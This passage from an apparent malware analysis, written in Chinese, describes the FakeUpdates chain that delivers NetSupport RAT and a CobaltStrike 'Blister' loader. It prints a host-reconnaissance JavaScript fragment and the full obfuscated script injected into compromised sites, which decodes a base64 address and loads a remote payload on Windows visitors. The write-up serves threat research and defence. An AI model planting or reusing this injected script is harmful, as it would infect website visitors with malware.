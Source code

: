 ```
req.push(['computername', computername])
req.push(['processor_architecture', processor_architecture])
req.push(['asproduct', ASProduct])
req.push(['processlist', processlist])
req.push(['servicelist', servicelist])
this['eval'](prepareRequest(req))
```

该链的交付以前是 NetSupport RAT，但最近交付了一个被 AV 公司称为“Blister”加载程序的 CobaltStrike 加载程序，通常与重命名的 Rundll32 可执行文件一起放在 ProgramData 内的一个文件夹中。将要使用的文件夹和文件的名称被硬编码在负责解码 CobaltStrike 文件的一个层中，这样，如果需要的话，它可以自己设置。

示例:

![](img/5baf48fc99e8fb2c9ee71c4666288191.png)

正在使用的 CobaltStrike 延展性配置文件将利用新的 WerFault.exe 进程，该活动与 dll 很好地融合在一起，因为它们包含许多导出，并且在沙盒引爆期间，通常会合法地导致多个故障发生。

# FakeUpdate Malspam

这些活动的流程与上述“路过式”下载链类似，只是会向外发送指向受损网站的链接。

示例:

```
hxxps://payyourintern[.]com/two-p-1-posts-in-the-un-for-young-specialists
```

访问这个站点将导致运行一些注入的 javascript 代码

```
<script>;(function(){var wq=document[id("cmVmZXJyZXI=")]||'';var nb=new RegExp(id('Oi8vKFteL10rKS8='));if(!wq||window[id("bG9jYXRpb24=")][id("aHJlZg==")][id("bWF0Y2g=")](nb)[1]==wq[id("bWF0Y2g=")](nb)[1]){return;};var ji=navigator[id("dXNlckFnZW50")];var nl=window[id("bG9jYWxTdG9yYWdl")][id("X19fdXRtYQ==")];if(go(ji,id("V2luZG93cw=="))&&!go(ji,id("QW5kcm9pZA=="))){if(!nl){var vc=document.createElement('script');vc.type='text/javascript';vc.async=true;vc.src=id('aHR0cHM6Ly9kZXNpZ24ubGF3cmVuY2V0cmF2ZWxjby5jb20vcmVwb3J0P3I9ZGoxaU5qSTBPV0ZpTlRWaU9EVmhNREl4Wm1SalpDWmphV1E5TWpZeQ==');var ni=document.getElementsByTagName('script')[0];ni.parentNode.insertBefore(vc,ni);}}function id(at){var zx=window.atob(at);return zx;}function go(rs,mr){var zx=(rs[id("aW5kZXhPZg==")](mr)>-1);return zx;}})();</script>
```
